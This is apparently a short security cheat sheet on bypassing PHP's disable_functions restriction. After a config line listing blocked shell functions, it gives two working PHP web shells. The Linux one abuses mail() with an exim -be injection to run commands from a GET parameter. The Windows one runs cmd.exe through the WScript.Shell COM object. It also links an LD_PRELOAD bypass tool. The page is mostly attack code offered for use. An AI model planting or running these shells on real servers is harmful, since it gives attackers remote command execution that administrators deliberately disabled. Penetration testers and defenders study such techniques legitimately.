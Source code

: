 ### Configuration

```php
disable_functions = system, proc_open, popen, passthru, shell_exec, exec, python_eval, perl_system
```

### Linux

* sendmail -> exim bypass

```php
<?php
$command_file = "/tmp/cmdMhhaJ8aM";
$output_file = "/tmp/outputMhhaJ8aM";
$cmd = $argv[1] ? $argv[1] : $_GET['cmd'];
$cmd = "$cmd > $output_file";

file_put_contents($command_file, $cmd);
mail("root@localhost", "aaa", "bbb", null,
     '-fwordpress@xenial(tmp1 -be ${run{/bin/sh${substr{10}{1}{$tod_log}}'.$command_file.'}} tmp2)');
echo file_get_contents($output_file);
unlink($output_file);
unlink($command_file);
```

* LD_PRELOAD bypass

tools : [Chankro](https://github.com/TarlogicSecurity/Chankro)

### Windows

* use `COM` to bypass

```php
<?php
$runCommand = "C:\\WINDOWS\\system32\\cmd.exe /c {$_GET['cmd']}"; //Wrong by purpuse to get some good output
$WshShell = new COM("WScript.Shell");
$output = $WshShell->Exec($runCommand)->StdOut->ReadAll;
echo "<p>$output</p>";
?>
```

### Ref

* [Yet Another PHP disable_functions Bypass](https://ricterz.me/posts/Yet%20Another%20PHP%20disable_functions%20Bypass)
* [how to bypass disable functions and open basedir](https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/)
